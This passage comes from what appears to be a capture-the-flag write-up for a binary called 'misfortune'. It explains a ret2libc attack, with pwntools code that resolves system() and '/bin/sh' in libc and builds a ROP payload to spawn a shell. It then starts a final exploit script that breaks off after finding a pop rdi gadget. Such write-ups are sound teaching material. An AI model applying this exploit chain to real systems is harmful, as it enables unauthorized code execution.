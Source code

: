 Now that we have the `libc` base, our next goal is to find the actual `system()` address is during runtime.&#x20;

<mark style="color:yellow;">All it takes, is taking the same syntax above and grab the</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`system()`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">function</mark>!

We want to pass the `'/bin/sh'` string to it as well. This is easy because libc has this string in the file's shared library/object comments!

```python
system = libc.symbols.system                  # Grab system() from libc symbols
bin_sh = next(libc.search(b'/bin/sh\x00'))    # Search for '/bin/sh' string in libc
success(f'{hex(system)=}')                    # Print out system() address
success(f'{hex(bin_sh)=}')                    # Print out '/bin/shell address
```

Viewing `system()` and string, `'/bin/sh'` addresses.

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Obtaining valid external function addresses and strings from the dynamically loaded library, <code>libc</code>.</p></figcaption></figure>

We now have everything we need to pwn this binary.

Lastly, we need to build out another payload that will be sent after our new prompt from `main()`.

```python
    # Payload again because we are being asked how we want to divert flow of execution in another prompt
    payload = b''.join([                        # Use join() to join all elements in a list into one string
    b'A'*offset,
    p64(ret),                                   # Stack-alignment issues requires a ret gadget here
    p64(pop_rdi),                               # ROP Gadget to pop '/bin/sh' into the RDI register
    p64(bin_sh),                                
    p64(ret),                                   # Stack-alignment issues requires a ret gadget here
    p64(system),                                # Call system() from libc
    ])

    # A's at the top, B's for injection test, and C's for padding out the original length of data to send out
    payload += b'C'*(length -len(payload))          

    r.send(payload)
```

## Final Exploit

```python
#!/usr/bin/env python3

from pwn import *

# ELF Object
exe = ELF("./misfortune_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.27.so")


# ROP Object
rop = ROP(exe)                                       # You can use this to "pull" apart different pieces of your binary
pop_rdi = rop.find_gadget(['pop rdi'])[0]            # Find pop_rdi gadget
```